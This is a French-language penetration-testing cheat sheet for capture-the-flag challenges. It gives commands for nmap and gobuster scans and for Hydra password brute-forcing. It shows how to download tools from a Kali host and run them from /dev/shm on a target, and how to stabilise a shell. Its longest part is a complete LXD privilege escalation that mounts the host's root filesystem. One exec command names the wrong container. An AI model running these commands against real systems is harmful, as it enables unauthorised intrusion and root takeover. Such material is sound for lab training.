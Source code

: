 ```yaml
---
description: Outils utilisés dans la résolution des challenges.
---
```


# Outils

## nmap

```shell-session
nmap $IP -A -p- -oN nmap.txt -T4
```

## gobuster

```shell-session
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x ".php,.html,.txt,.zip" -u $IP -t50
```

```
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x ".php,.html,.txt,.zip" -u http://$IP:8080 -t50 -U <user> -P <password>
```



## Hydra

* Hydra pour pop3

```
hydra -l <user>  -P /usr/share/wordlists/rockyou.txt pop3://$IP -s <port> -t 64
```

ou

```
hydra -l <user>  -P /usr/share/wordlists/fasttrack.txt pop3://$IP -s <port> -t 64 
```

* Hydra pour http-get

```
hydra -l <user> -P /usr/share/wordlists/rockyou.txt $IP -s <port> http-get
```

## Transfert de fichiers

Pour transférer des fichiers depuis la machine Kali vers la machine cible:

1. sur la machine Kali
   1. aller dans le répertoire contenant les fichiers à transférer
   2. `python3 -m http.server`
2. sur la machine cible
   1. aller dans le répertoire /dev/shm
   2. `wget < kali tun0 IP>:8000/fichier.à.transférer`
   3. rendre les fichiers exécutables avec `chmod +x`

## Privilege Escalation

Voici la méthode générique que j'utilise pour trouver les possibilités de 'privilege escalation'. Cette méthode est en partie basée sur l'article Linux [Privilege Escalation: Automated Script](https://www.hackingarticles.in/linux-privilege-escalation-automated-script/).

1. sudo -l
2. [suid3num.py](https://github.com/Anon-Exploiter/SUID3NUM/tree/master)
3. [les.sh](https://github.com/The-Z-Labs/linux-exploit-suggester)
4. [linpeas.sh](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)

## Consolidation d'un Shell

```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl Z
stty raw -echo; fg
export TERM=xterm  
(stty cols 132 rows 34)
```

## Escalade de privilèges via LXD

Basé sur cet article: [LXC/LXD (Linux Container/Daemon) Privilege Escalation](https://exploit-notes.hdks.org/exploit/linux/container/lxc-lxd-privilege-escalation/)

Vérifiez que l'utilisateur sur la machine cible fait partie du groupe lxd

```shell
id
uid=33(www-data) gid=33(www-data) groups=33(www-data),115(lxd)
```

### Sur la machine Kali

Préparez un conteneur linux et lancer un serveur http

```
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
sudo ./build-alpine
python3 -m http.server 8000
```

### Sur la machine cible

Téléchargez le fichier \<alpine tar.gz> et importez-le comme image dans LXC

```
cd /dev/shm
wget http://<local-ip>:8000/<alpine tar.gz>
lxc image import ./<alpine tar.gz> --alias myimage
lxc image list
```

Créez un nouveau conteneur '**mycontainer**' basé sur l'image '**myimage**' qui vient d'être importée.

```
lxc init myimage mycontainer -c security.privileged=true
```

En cas de message **“**No storage pool found. Please create a new storage pool**.”** initialisez LXD d'abord et relancez la commande.

```
lxd init
```

Montez (mount) le répertoire principal / dans le répertoire /mnt/root du conteneur 'mycontainer' que vous venez de créer

```
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true
```

Démarrez votre conteneur

```
lxc start mycontainer
```

Lancez un Shell (note: l'image Alpine ne supporte qu'un shell sh)

```
lxc exec testcontainer /bin/sh
```

Vérifiez que vous êtes bien root

```
whoami
```

Rendez-vous dans le répertoire principal de la machine cible monté en /mnt/root et accédez en tant que root à toutes les données de la machine

```
cd /mnt/root

```
